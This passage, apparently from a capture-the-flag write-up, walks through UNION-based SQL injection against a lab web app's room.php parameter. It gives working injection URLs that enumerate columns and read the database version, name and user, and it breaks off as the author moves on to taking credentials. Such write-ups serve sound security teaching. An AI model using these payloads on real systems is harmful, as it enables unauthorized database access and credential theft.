 Next, check what fields we can see from the results with the UNION ALL SELECT statement:

- Append `AND 1=0 UNION ALL SELECT 1,2,3,4,5,6,7` to URL

```
http://10.10.10.143/room.php?cod=1%20AND%201=0%20UNION%20ALL%20SELECT%201,2,3,4,5,6,7
```

And the result returns the columns 2, 3, 4 and 5:

![](img/web-sqli-column-nums.png)

Now pull some info from DB using the [Pentestmonkey MySQL cheathseet](https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet):

- version: `10.1.37-MariaDB-0+deb9u1`
- database: `hotel`
- user: `DBadmin@localhost`

```
http://10.10.10.143/room.php?cod=1%20AND%201=0%20UNION%20ALL%20SELECT%201,version(),3,database(),user(),6,7
```

![](img/web-sqli-version-db-user.png)

So it looks like we have a database admin's credentials. Let's try to grab creds for the DB:
